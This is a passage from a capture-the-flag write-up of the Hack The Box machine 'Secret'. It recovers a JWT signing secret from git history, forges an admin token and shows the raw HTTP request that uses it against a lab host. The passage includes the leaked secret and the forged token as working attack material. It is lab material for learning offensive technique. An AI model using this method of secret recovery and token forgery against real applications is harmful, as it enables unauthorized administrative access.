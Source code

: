 ```bash
de0a46b5107a2f4d26e348303e76d85ae4870934 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 dasithsv <dasithsv@gmail.com> 1630648817 +0530        commit: removed .env for security reasons
67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 e297a2797a5f62b6011654cf6fb6ccb6712d2d5b dasithsv <dasithsv@gmail.com> 1631126007 +0530        commit: now we can view logs from server 😃
```
Immedietly the version 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 looks interesting becuase it removed .ev for security reasons. If you remember, thats where we found the "secret" token password. So by viewing this we could see whats the security risk.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/secret/local-web]
└─$ git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret

```
We have the secret token!
Now we can craft our JWT and get a token where our name is theadmin.
# Exploit
So head over to the JWT online decoder and craft the token. The values I'm choosing are:
```json
{
  "_id": "6205894901291c0464dfdf16",
  "name": "theadmin",
  "email": "TGC@nowhere.com",
  "iat": 1644530070
}
```
As we know, nothing else but the key and name really matters.
Therefore by using this token at /auth/priv we get the following:
```html
GET /api/priv/ HTTP/1.1
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type:application/json
Auth-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjA1ODk0OTAxMjkxYzA0NjRkZmRmMTYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6IlRHQ0Bub3doZXJlLmNvbSIsImlhdCI6MTY0NDUzMDA3MH0.9mP1WrnMqAlNANivAR19Cn6vNTaPF_MBgTvOSYd9zow
Content-Length: 6

{
    "key":"doesntmatter"
}

```